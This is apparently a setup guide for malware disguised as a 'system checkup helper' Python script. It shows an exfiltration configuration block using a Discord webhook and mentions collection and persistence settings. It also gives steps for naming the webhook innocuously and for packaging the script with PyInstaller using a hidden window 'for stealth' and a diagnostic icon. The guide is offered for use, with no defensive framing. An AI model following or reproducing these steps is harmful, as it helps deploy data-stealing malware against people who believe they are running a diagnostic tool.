### Editing the Script

1. Open `system_checkup_helper.py` in a text editor or VS Code

2. Locate the configuration section (around line 20):
   ```python
   # ===== MULTI-CHANNEL EXFILTRATION CONFIG =====
   EXFILTRATION_CHANNELS = {
       "discord": {
           "webhook_url": "YOUR_WEBHOOK_URL_HERE",
           "enabled": True,
           "priority": 1
       },
       # ... other channels
   }
   ```

3. Replace `YOUR_WEBHOOK_URL_HERE` with your actual Discord webhook URL

4. Customize other settings as needed:
   - Enable/disable exfiltration channels
   - Adjust collection parameters
   - Modify persistence settings

## 🔗 Discord Webhook Setup

1. **Create a Discord Server** (if you don't have one)
   - Open Discord and click the "+" icon to create a new server

2. **Create Webhook**
   - Go to Server Settings > Integrations > Webhooks
   - Click "Create Webhook"
   - Name it (e.g., "System Diagnostics")
   - Copy the Webhook URL

3. **Configure the Script**
   - Paste the webhook URL in the configuration section
   - Test the webhook using the test function

## 📦 Packaging to Executable

### Using PyInstaller

1. **Install PyInstaller**
   ```bash
   pip install pyinstaller
   ```

2. **Create executable**
   ```bash
   pyinstaller --onefile --windowed --icon=diagnostic.ico system_checkup_helper.py
   ```

   Options explained:
   - `--onefile`: Package into a single executable
   - `--windowed`: Hide console window (for stealth)
   - `--icon`: Add a custom icon (optional)
